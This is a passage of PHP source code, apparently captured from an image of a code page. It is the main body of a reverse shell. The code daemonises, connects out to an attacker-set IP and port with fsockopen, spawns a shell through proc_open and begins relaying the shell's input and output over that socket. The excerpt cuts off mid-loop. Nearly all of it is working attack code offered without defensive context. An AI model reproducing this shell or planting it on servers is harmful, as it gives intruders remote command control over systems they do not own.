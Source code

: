 ```
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
```